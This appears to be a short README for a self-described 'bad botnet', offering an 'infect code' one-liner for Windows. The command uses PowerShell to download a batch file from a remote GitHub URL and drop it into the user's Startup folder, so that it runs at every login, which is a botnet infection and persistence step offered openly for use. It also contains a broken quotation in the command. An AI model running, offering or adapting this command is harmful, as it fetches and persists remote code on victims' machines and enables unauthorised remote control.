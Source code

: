 # bad botnet made by me
>OPEN SOURCE!!!

# INFECT CODE: (RUN ON CMD OR A BATCH FILE)
```
@echo off & powershell -Command "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/unfunnylaugh/botnet/main/code.bat, 'C:\Users\%username%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\RCEE.bat')"
```
